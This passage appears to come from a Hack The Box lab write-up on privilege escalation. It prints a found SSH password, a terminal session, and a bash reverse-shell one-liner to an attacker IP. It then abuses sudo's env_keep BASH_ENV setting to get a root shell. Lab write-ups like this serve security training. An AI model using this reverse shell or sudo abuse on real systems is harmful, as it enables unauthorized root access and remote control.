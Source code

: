 ## Privilege Escalation

Found SSH credentials:

```bash
ssh hish@10.10.11.67
Password: marineSPm@ster!!
```

```
┌──(kali㉿kali)-[~/HTB-machine/environment]
└─$ ssh hish@10.10.11.67                                   
hish@10.10.11.67's password: 
Linux environment 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May 4 16:52:27 2025 from 10.10.14.56
hish@environment:~$ ls
backup  user.txt

```
After logging in as `hish`, we check the available `sudo` permissions:

```
backup  user.txt
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
hish@environment:~$ echo 'bash -i >& /dev/tcp/10.10.14.56/4444 0>&1' > /tmp/malicious.sh
hish@environment:~$ chmod +x /tmp/malicious.sh
hish@environment:~$ 
hish@environment:~$ export BASH_ENV=/tmp/malicious.sh
hish@environment:~$ sudo /usr/bin/systeminfo
```

This means the user `hish` can run `/usr/bin/systeminfo` with `sudo` privileges.
The interesting part is the `env_keep+="ENV BASH_ENV"` setting, which allows us to pass a custom environment variable named `BASH_ENV`.

If `BASH_ENV` points to a file, that file will be sourced as a Bash script when a shell is spawned — even in a sudo context.

We can use this to get a reverse shell:

